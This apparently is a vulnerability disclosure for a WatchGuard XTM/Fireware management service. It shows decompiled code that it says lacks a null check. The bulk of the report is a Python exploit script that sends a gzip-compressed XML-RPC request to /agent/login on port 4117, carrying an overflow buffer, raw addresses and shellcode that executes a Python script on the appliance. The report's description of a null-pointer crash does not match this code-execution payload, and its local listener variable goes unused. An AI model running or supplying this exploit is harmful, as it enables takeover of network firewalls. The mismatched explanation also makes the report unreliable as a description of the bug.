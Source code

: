 <a name="ZJ3iE"></a>
# Impact Location

```bash
int *__cdecl sub_804BC38(int a1, char *s2, _DWORD *a3)
{
  int **v3; // esi

  if ( !a1 || !s2 )
    return 0;
  v3 = *(int ***)(a1 + 12);
  if ( v3 )
  {
    while ( strcasecmp((const char *)v3[1], s2) )
    {
      v3 = (int **)*v3;
      if ( !v3 )
        goto LABEL_10;
    }
    if ( a3 )
      *a3 = v3[3];
    return v3[2];
  }
  else
  {
LABEL_10:
    if ( !a3 )
      return 0;
    *a3 = 0;
    return 0;
  }
}
```
This function does not check whether a1 is empty, and the parent function does not have a check, which causes the strcasecmp function comparison number to be empty and the process is killed.<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/35802705/1724312688055-77ca5ff6-3d40-4f73-b22a-89a02b3fa036.png#averageHue=%23e6e5e5&clientId=u652f0bef-4493-4&from=paste&height=611&id=u4cff2d35&originHeight=917&originWidth=2013&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=76238&status=done&style=none&taskId=u9a7ce5f7-0617-44cf-af9a-a415077173a&title=&width=1342)<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/35802705/1724312489018-d7ed3699-3299-4b8c-a090-c9003c30ed90.png#averageHue=%23300a24&clientId=u652f0bef-4493-4&from=paste&height=663&id=uecd90f33&originHeight=994&originWidth=2307&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=246571&status=done&style=none&taskId=u01f06fe3-bda1-4bf0-8750-8966811041f&title=&width=1538)<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/35802705/1724312503327-978f2a0b-6734-45a8-8e33-ce6b00690cdc.png#averageHue=%23807b73&clientId=u652f0bef-4493-4&from=paste&height=727&id=u9aad158b&originHeight=1091&originWidth=2347&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=304569&status=done&style=none&taskId=uf0878b4c-6310-4766-ab76-01c774df164&title=&width=1564.6666666666667)<br />![6c92cb690a1f0d6ed1fb35d0c0a8c2c9.png](https://cdn.nlark.com/yuque/0/2024/png/35802705/1724312645549-a08bb1a9-82c8-41b7-9d01-0f7f5f0f0321.png#averageHue=%230c0c0c&clientId=u652f0bef-4493-4&from=paste&height=680&id=u16c6c50a&originHeight=1020&originWidth=1920&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=77500&status=done&style=none&taskId=u19ec3b42-92a2-437d-970e-5ecbb735e17&title=&width=1280)
<a name="DfiBE"></a>
# poc

```bash
#!/usr/bin/python3

# -*- coding: utf-8 -*-

import socket

import ssl

import gzip







# Remote WatchGuard XTM or FireWare OS

R_HOST = "10.0.1.1"

# Local host with nc listener: nc -l 8.8.8.8 8888

L_HOST = "10.0.1.4"





def buildPayload(L_HOST):

    payload = "<methodCall><methodName>agent.login</methodName><params><param><value><struct><member><value><".encode()

    payload += ("A"*3181).encode()

    payload += "MFA>".encode()

    payload += ("<BBBBMFA>"*3680).encode()

    payload += b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 P@\x00\x00\x00\x00\x00h\xf9@\x00\x00\x00\x00\x00 P@\x00\x00\x00\x00\x00\x00\x00\x0e\xd6A\x00\x00\x00\x00\x00\xb1\xd5A\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00}^@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00|^@\x00\x00\x00\x00\x00\xad\xd2A\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x0e\xd6A\x00\x00\x00\x00\x00\xc0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00*\xa9@\x00\x00\x00\x00\x00H\x8d=\x9d\x00\x00\x00\xbeA\x02\x00\x00\xba\xb6\x01\x00\x00\xb8\x02\x00\x00\x00\x0f\x05H\x89\x05\x92\x00\x00\x00H\x8b\x15\x93\x00\x00\x00H\x8d5\x94\x00\x00\x00H\x8b=}\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05H\x8b=o\x00\x00\x00\xb8\x03\x00\x00\x00\x0f\x05\xb8;\x00\x00\x00H\x8d=?\x00\x00\x00H\x89= \x00\x00\x00H\x8d5A\x00\x00\x00H\x895\x1a\x00\x00\x00H\x8d5\x0b\x00\x00\x001\xd2\x0f\x05\xb8<\x00\x00\x00\x0f\x05\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00/usr/bin/python\x00/tmp/test.py\x00\x00\x00\x00\x00\x00\x00\x00\x00\xef\x01\x00\x00\x00\x00\x00\x00'

    return gzip.compress(payload, 9)





def buildHTTP(L_HOST, R_HOST):

    http_payload = "POST /agent/login HTTP/1.1\r\n"

    http_payload += "Host: {}:4117\r\n".format(R_HOST)

    http_payload += "User-Agent: CVE\r\n"

    http_payload += "Accept-Encoding: gzip, deflate\r\n"

    http_payload += "Accept: */*\r\n"

    http_payload += "Connection: close\r\n"

    http_payload += "Content-Encoding: gzip\r\n"



    gzippedExploit = buildPayload(L_HOST)



    http_payload += "Content-Length: {}\r\n".format(len(gzippedExploit))

    http_payload += "\r\n"



    return http_payload.encode() + gzippedExploit





def main():

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    wrappedSocket = ssl.wrap_socket(sock=sock, cert_reqs=ssl.CERT_NONE)



    server_address = (R_HOST, 4117)

    print('connecting to {} port {}'.format(*server_address))



    wrappedSocket.settimeout(3)

    try:

        wrappedSocket.connect(server_address)

        print("sending payload...")

        payload = buildHTTP(L_HOST, R_HOST)

        wrappedSocket.sendall(payload)

    except:

        pass



    finally:

        print('closing socket')

        wrappedSocket.close()





main()
```

<a name="ncHdG"></a>
# Temporary protection advice
Restrict access to the management page IP.
<a name="ERaFs"></a>
# Restoration suggestions
Added detection of whether the xml parameter is empty.


